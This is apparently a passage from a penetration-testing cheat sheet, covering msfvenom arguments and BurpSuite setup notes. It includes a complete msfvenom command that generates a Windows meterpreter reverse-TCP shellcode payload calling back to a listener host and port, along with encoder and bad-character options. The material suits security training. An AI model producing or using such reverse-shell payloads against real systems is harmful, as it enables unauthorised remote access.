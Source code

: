 
> ##### Arguments

```
-p - payload
--payload-options
    Display available payloads
LHOST=ADDRESS - Argument for IP Address
LPORT=PORT - Argument for port
-n [number] - NOPS
--platform {Windows|Linux} - Platform to build shellcode for
-a {x86|x64} - Architecture
-e {x86/shikata_ga_nai} - encoder
-b '{badchars}' - remove badchars from payload
-v [string] - name your variable
-f {python} - format for payload
--smallest - attempt to make payload as tiny as possible
```

> ##### Examples

```
Kali> msfvenom -p windows/meterpreter/reverse_tcp
                                lhost=192.168.1.232
                                lport=4444
                                --platform Windows
                                -a x86
                                -e x86/shikita_ga_nai
                                -b '\x00\x20\x25\x2b\x2f\x5c'
                                -v payload
                                -f python
                                --smallest
```

## BurpSuite

---

> ##### Setup

```
add to scope
only show scoped items
```

> ##### Intercept Traffic

```
Chain Burp Proxy such as:
127.0.0.1:80 -> $TARGET:80
```

> ##### Shortcuts

```
Send to repeater: Ctrl+R
```

